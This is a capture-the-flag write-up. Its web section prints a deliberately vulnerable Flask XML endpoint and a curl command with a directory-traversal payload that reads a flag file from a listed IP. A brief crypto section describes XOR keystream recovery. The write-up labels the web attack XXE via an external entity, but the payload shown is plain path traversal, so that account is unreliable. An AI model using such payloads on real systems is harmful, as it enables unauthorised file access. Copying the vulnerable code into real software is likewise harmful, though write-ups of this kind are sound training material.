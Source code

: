 

## RICK - WEB

I identified an **XXE vulnerability** in the `/data` endpoint. The `main.py` code uses `lxml`'s `ET.XMLParser(resolve_entities=True)`, which is prone to XXE. By providing an XML payload that includes an external entity declaration, I was able to read local files.

- auth.py

```python
@auth.route('/data', methods=['POST'])
def process_data():
    # Decode the incoming XML data
    xml_data = request.data.decode('utf-8')
    parser = ET.XMLParser(resolve_entities=True)
    root = ET.fromstring(xml_data, parser=parser)
    try:
        # Parse XML data with lxml, allowing external entity resolution
        # Enable external entity resolution
        # parser = ET.XMLParser(resolve_entities=True)
        #  Parse the XML with XXE vulnerability enabled
        # root = ET.fromstring(xml_data, parser=parser)

        # Extract the user ID from the XML
        user_id = root.find('ID').text
        print(user_id)
        details = open(f'static/details/{user_id.strip()}').read()
    except ET.XMLSyntaxError:
        # If parsing fails, return the raw XML (this simulates error handling)
        details = __import__('os').getcwd()
    except:
        details = f"Current working directory: {__import__('os').getcwd()}"

    response = make_response(details)
    return response
                        
```


My successful payload used the following `curl` command to retrieve the contents of `/app/.flag`:


```
curl -X POST http://4.240.104.200:5004/data \
-H "Content-Type: application/xml" \
--data '<?xml version="1.0"?><data><ID>../../../../app/.flag</ID></data>'
```

---

## AGAIN CRYPTO

This challenge involved recovering a flag from two ciphertext-keystream pairs. I used a Python script that implements the XOR logic to recover the keystream using a known plaintext and then applies that keystream to the flag's ciphertext to reveal the flag.
